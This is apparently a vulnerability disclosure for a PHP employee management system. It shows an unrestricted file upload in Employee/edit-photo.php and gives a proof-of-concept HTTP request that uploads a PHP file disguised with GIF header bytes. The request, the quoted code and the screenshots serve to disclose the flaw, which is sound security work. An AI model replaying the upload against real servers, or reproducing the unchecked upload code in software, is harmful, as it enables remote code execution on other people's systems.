 ### Vulnerability file address

In line 12 of `Employee/edit-photo.php`, `$image= addslashes(file_get_contents($_FILES['userImage']['tmp_name']));`, the file extension is not whitelisted. Following up to line 15, `move_uploaded_file($_FILES["userImage"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["userImage"]["name"]);`, the file is uploaded to the `uploadImage/Profile/` directory.

```php
<?php
include('../inc/topbar.php'); 
if(empty($_SESSION['login_email']))
    {   
      header("Location: ../Account/login.php"); 
    }

if(isset($_POST["btnedit"]))
{


$image= addslashes(file_get_contents($_FILES['userImage']['tmp_name']));
$image_name= addslashes($_FILES['userImage']['name']);
$image_size= getimagesize($_FILES['userImage']['tmp_name']);
move_uploaded_file($_FILES["userImage"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["userImage"]["name"]);			
$location="uploadImage/Profile/" . $_FILES["userImage"]["name"];
```

### POC

```html
POST /CMS/php/employee_akpoly/Employee/edit-photo.php HTTP/1.1
Host: 10.0.0.20:82
Content-Type: multipart/form-data; boundary=---------------------------55395399231236061983284304644
Content-Length: 360
Origin: http://10.0.0.20:82
Connection: close
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

-----------------------------55395399231236061983284304644
Content-Disposition: form-data; name="userImage"; filename="6666.php"
Content-Type: image/png

GIF89a<?php phpinfo(); ?>

-----------------------------55395399231236061983284304644
Content-Disposition: form-data; name="btnedit"


-----------------------------55395399231236061983284304644--

```

### Attack results pictures

![image-20250128230607381](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282306416.png)

![image-20250128233829901](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282338937.png)





